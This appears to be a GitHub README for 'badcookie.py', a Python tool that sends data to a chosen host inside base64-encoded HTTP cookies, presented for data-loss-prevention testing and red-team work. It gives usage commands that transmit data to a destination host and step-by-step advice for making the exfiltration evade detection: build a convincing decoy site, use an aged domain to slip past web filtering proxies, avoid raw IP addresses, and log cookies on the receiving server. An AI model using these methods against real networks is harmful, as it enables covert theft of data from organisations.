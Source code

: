 # Requirements
Python 2.7

### Libraries
* Requests

# Description
Bad cookie exfiltrates data via base64 encoded HTTP cookies.

# Some use cases
* The script can be used for testing the effectiveness of data loss prevention systems.
* Network security monitoring systems.
* Red and Blue team exercises e.g. see if the blue team can detect data exfiltraion.
* Penetration testing activities

#Things to keep in mind
* The script transmits data via http not https
* Base64 encoded data can be easily decoded
* Be mindful of the cookie size 

#Usage
`badcookie.py <destination_host> <exfiltrated_data>`

`Example(1): badcookie.py 10.0.0.2 "very important data"`
`Example(2): badcookie.py www.secretsite.com "very important data"`

`Use quotes if you plan to transmit data with whitespace`


#Setting up the data exfiltration process

* To make the network traffic look convincing setup a site with a proper domain. It can be a news, blog or any other site. So when you exfiltrate data the network traffic will look like normal web traffic going to a legitimate site. (atleast this is what we are trying to accomplish)
* Fill the site with some real looking content
* If you are testing systems where there is a web filtering proxy involved, try and use domain which is  more than a year old as web filtering proxies block new domains. In either case using an aged domain name will be beneficial.
* Avoid sending data using IP addresses.
* Enable  logging of http cookies in apache ( you can use any server you like). The sample config file in this repository “000-default.conf” in the  “apache_conf” folder can be used to enable cookie logging. Place config file in /etc/apache2/sites-enabled/ and restart Apache.  You should now see a file called “cookies.log” in /var/log/apache2.
* Execute the badcookie script.
* After executing the script you should see the following log entry in cookies.log. The log shows the transmitted base64 cookie.

`10.0.0.2 - - [13/Jun/2015:18:48:17 -0500] "GET / HTTP/1.1" 200 3256 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; MDDCJS; :11.0) like Gecko" "dGVzdGluZw=="`

* You can now decode the base64 encoded data.

* Please note that the above process is just a suggestion, you can setup the exfiltration process anyway you like.

* Have fun
